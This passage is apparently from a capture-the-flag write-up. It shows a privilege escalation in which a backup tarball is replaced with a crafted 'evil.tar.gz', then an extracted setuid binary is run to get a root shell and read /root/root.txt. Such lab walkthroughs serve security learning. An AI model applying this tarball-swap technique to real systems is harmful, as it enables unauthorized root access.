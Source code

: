 (we could script this and/or use `watch` but it's not too bothersome to do this manually)

Quickly copy the tarball to randomfile name (thus replacing it)

....wait approximately 30 secs for check folder to appear.

Then do:
`check/var/www/html/setuid` to execute setuid and get root shell....


```

$ ls -la
ls -la
total 44
drwxrwxrwt  9 root  root  4096 Jan 22 06:19 .
drwxr-xr-x 14 root  root  4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 2766 Jan 22 06:18 .cb5ac6f342da17bb06db854594565cdb5072b159
-rw-r--r--  1 onuma onuma 2766 Jan 22 06:13 evil.tar.gz
drwxr-xr-x  3 root  root  4096 Jan 22 06:19 check
drwx------  3 root  root  4096 Jan 21 14:57 systemd-private-00c6d6ebfcd040b6b2794a216b199497-systemd-timesyncd.service-VqUB7s
drwx------  3 root  root  4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root  4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
$ check/var/www/html/setuid
check/var/www/html/setuid
# id
id
uid=0(root) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
# cat /root/root.txt
cat /root/root.txt
#  e7xxxxxxxxxxxxxxxxxxxxxxxxxxf9
# 

```




:)



